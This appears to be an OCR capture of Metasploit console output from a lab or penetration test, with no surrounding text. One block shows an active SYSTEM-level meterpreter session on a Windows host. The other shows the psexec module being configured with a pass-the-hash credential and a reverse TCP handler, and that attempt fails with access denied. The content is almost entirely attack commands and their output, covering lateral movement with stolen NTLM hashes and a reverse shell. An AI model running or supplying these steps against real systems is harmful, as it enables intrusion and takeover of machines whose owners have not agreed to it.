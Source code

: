 ```
msf5 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ EC2AMAZ-408S766  10.10.16.3:4444 -> 10.0.23.243:49841 (10.0.23.243)

```

```
msf5 exploit(windows/smb/psexec) > set SMBUser demo
SMBUser => demo
msf5 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:4699b6979c6e1513ec8f54ba8dd219b2
SMBPass => aad3b435b51404eeaad3b435b51404ee:4699b6979c6e1513ec8f54ba8dd219b2
msf5 exploit(windows/smb/psexec) > set LPORT 4433
LPORT => 4433
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.16.3:4433 
[*] 10.0.23.243:445 - Connecting to the server...
[*] 10.0.23.243:445 - Authenticating to 10.0.23.243:445 as user 'demo'...
[-] 10.0.23.243:445 - Exploit failed [no-access]: RubySMB::Error::UnexpectedStatusCode STATUS_ACCESS_DENIED
[*] Exploit completed, but no session was created.

```